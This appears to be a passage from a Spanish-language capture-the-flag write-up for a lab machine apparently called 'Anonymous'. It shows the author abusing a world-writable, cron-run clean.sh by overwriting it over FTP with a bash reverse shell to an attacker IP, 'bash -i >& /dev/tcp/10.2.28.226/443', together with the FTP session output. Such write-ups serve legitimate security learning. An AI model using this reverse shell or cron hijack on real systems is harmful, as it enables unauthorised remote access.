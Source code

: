 ![](/assets/images/try-writeup-anonymous/2.png)

Bueno algo a saber es que el script `clean.sh` parece ser una tarea `cron` vamos a modificarlo para ver si podemos ganar acceso tambien el directorio `scripts` tiene privilegios de escritura ademas otros usuarios tienen permisos de lectura, escritura y ejecución en el archivo

```bash
drwxrwxrwx    2 111      113          4096 Jun 04  2020 scripts
```

Lo modificas para que nos envie una reverse shell a tu maquina de atacante

```bash
❯ catn clean.sh
#!/bin/bash
bash -i >& /dev/tcp/10.2.28.226/443 0>&1
```

```bash
ftp> dir
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rwxr-xrwx    1 1000     1000          314 Jun 04  2020 clean.sh
-rw-rw-r--    1 1000     1000         2021 Apr 01 01:56 removed_files.log
-rw-r--r--    1 1000     1000           68 May 12  2020 to_do.txt
226 Directory send OK.
ftp> append 
(local-file) clean.sh
(remote-file) clean.sh
local: clean.sh remote: clean.sh
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
53 bytes sent in 0.00 secs (1.8720 MB/s)
ftp> 
```
